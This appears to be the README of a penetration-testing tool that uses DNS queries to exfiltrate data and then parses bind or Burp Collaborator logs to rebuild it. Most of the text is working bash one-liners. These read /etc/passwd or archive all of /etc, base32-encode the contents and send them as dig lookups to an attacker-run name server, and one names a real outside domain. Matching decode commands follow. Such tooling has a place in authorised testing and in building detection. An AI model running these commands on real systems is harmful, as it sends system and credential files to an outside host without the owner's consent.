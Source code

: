 # DNS-Exfiltrate

Parses bind query or Private Burp Collaborator logs to exfiltrate data. Note that you will get more reliable results by specifying the name server via `dig @`...

It parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee`:

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Use cases (bash):

## Exfiltrate a file:

```
cat /etc/passwd | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d
```

To recover the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d
```

## Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover/unzip the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d | zcat
```

To recover/unzip the file (on a private Burp Collaborator server):

  ```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d | zcat 
```

## Exfiltrate a compressed tar archive of a directory:

```
tar czf - /etc | base32 -w 63 |tr -d =| while read a; do dig @ns1.eej.me $a.e.ns1.eej.me; done;
```
